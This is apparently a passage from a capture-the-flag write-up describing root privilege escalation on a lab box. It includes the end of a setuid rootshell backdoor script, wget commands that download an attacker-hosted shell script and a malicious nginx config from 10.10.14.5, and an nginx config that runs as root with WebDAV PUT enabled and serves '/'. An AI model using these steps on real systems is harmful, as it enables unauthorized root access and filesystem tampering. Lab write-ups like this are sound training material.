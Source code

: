 ```sh

# Execute the rootshell
echo -e "\n[+] Spawning the rootshell $BACKDOORPATH now! \n"
$BACKDOORPATH -p -i

# Job done.
cleanexit 0
```
Then download the shell with wget and execute it.
```sh
wget http://10.10.14.5:8001/upgrade_shell.sh
chmod +x upgrade_shell.sh
```
We note that this fails.
So we run the following and find we can specify a config file name.
```sh
nginx -h
```
NGINX discloses the following, which allows a root
[Module ngx_http_dav_module (nginx.org)](https://nginx.org/en/docs/http/ngx_http_dav_module.html)
So let's abuse it.
On my host I put the file:
```nginx
user root;
worker_processes 1;
events{
    worker_connections 1024;
}
http{
server{
    listen        8008;
    server_name   localhost;
    root /;
    dav_methods PUT;
    autoindex on;
    }
}
```
Now let's pull it
```sh
wget http://10.10.14.5:8001/bad_nginx_config.conf
```
And all we have to do is get to our flag, and BAM, root flag. by visiting the web page.